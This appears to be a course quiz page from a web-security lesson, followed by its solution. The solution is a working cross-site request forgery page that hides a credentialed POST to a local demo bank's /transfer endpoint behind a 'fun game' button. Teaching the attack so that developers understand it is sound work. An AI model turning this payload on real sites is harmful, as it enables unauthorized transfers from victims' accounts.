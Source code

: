 # Lesson 5.10 Quiz: CSRF Quiz

1. Sign in to the bank
    - super secret password
2. Create a website in the evil folder that forces the visitor to send a POST request
    - POST request must be sent to the bank's /transfer URL
    - data must be "recipient-Umbrella+Corp&amount=666"
    - include the credentials in the POST request

[Supporting Materials](http://video.udacity-data.com.s3.amazonaws.com/topher/2016/June/575717e4_l5-csrf-binary/l5-csrf-binary.zip)

### Solution:
```
<!doctype html>
<html lang="en">
<head>
	<meta charset="utf-8">
	<title>CSRF</title>
</head>
<body>
	
	<button>Click here to play a fun game</button>

	<script>
		var button = document.querySelector('button');

		button.addEventListener('click', function() {
			var body = 'recipient=Umbrella+Corp&amount=666';

			fetch('http://bank.127.0.0.1.xip.io:8080/transfer', {
				method: 'POST',
				headers: {
					'Content-Length': body.length,
					'Content-Type': 'application/x-www-form-urlencoded'
				},
				credentials: 'include',
				body: body,
			});

			button.textContent = 'You just lost the game...';
		});
	</script>

</body>
</html>

```

- - -
Next up: [Security Exploit - XSS](ND024_Part4_Lesson05_11.md) or return to [Table Of Contents](./ND024_TableOfContents.md)
